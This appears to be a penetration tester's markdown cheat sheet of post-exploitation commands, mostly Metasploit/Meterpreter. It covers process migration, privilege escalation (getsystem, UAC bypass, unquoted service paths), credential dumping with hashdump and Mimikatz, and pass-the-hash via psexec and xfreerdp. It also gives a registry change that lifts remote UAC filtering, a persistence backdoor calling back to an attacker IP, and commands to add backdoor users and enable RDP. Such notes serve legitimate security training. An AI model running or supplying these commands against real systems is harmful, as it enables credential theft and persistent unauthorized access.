 # Stable (Stabilize session)
## MSF Migrate
* `migrate` to a process that has higher chances of not being killed (e.g. from browser processes to system processes)
* `run <double_tabs>` - select meterpreter scripts

# Privileged (PrivEsc sessions)
## Windows Privilege Escalation
#### Metasploit
* `meterpreter> getsystem` - doesn't work when UAC is enabled and user is not admin
* `meterpreter> use incognito` - use commands from this module (e.g. `list_tokens`)
  * if `impersonate_token` doesn't work, migrate to a different process first (e.g. _w3wp_)
* `run post/multi/recon/local_exploit_suggester`
__UAC__
* `meterpreter> run post/windows/gather/win_privs` - check UAC enabled
* `msf> search bypassuac` - `use` module, `set` configs and `exploit`
  * `meterpreter> getsystem` - will work if user on the new session is admin (with UAC enabled also)
* manual - https://github.com/hfiref0x/UACME

#### General
* unquoted service paths
  * `wmic service get name,displayname,pathname,startmode | findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """` - find unquoted services
  * `msf> use exploit/windows/local/unquoted_service_path` - module for exploiting unquoted path vulnerable instances

## Linux Privilege Escalation
* SUDO - https://gtfobins.github.io/
* SUID - https://gtfobins.github.io/#+suid
* Replace executable
* crontab
* root squashing

# Persistent (maintaining access)
## Hashes
* `meterpreter> run hashdump` - if it crashes (elevate privileges or migrate to another process)
* `meterpreter> run post/windows/gather/smart_hashdump`
* pass-the-hash -> `use exploit/windows/smb/psexec` - works with administrator account (possible issues with users in Admin group, but not Administrator)
  * if no access to admin shares (Access_Denied in msf for psexec) - `meterpreter> reg setval -k 'HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System' -v LocalAccountTokenFilterPolicy -t REG_DWORD -d 1` and rerun psexec
* pass-the-hash over RDP -> `xfreerdp /u:<user> /d:<domain> /pth:<token> /v:<target>`

#### Mimikatz
* `sysinfo` - check on which processes meterpreter runs. It needs to be x64 for Mimikatz
* `ps -A x86_64 -s` list SYSTEM processes on x64 architecture
* `migrate <PID>` - migrate to a x64 processes
* `load mimikatz`

## Enable RDP service
* `net start` - check enabled services
* `wmic service where 'Caption like "Remote%" and started=true' get Caption` - check enabled remote services
* `meterpreter> <service_manager/enum_services>`
* `meterpreter> run getui -e << -u <new_username> -p <new_password>>>` - enable RDP
* `net localgroup "<RDP-Group-With-Allow-Perm>" <user> /add` - add user to the group allowed to RDP connections

## Backdoor
* `run persistence -A -X -i 5 -p <port> -r <attacker_IP>` - works only on Windows
* start `exploit/multi/handler` with the above configs (port/IP/payload)

## New Users
* `net user <username> <passowrd> /add` - adds new user
* `net localgroup "<group_name>" <username> /add` - adds existing user to a specific group that allows external connections (RDP, telnet, ssh etc.)

## DLL Hijacking (Windows)
* abuses the __DLL Search Order__
1. Directory from where the app is running
2. C:\Windows\System32 directory
3. C:\Windows\System directory
4. C:\Windows directory
5. Current directory at the time of execution
6. Any directory specified in %PATH%


## Cool Resources
* https://wiki.zacheller.dev/pentest/post-exploitation/maintaining-access
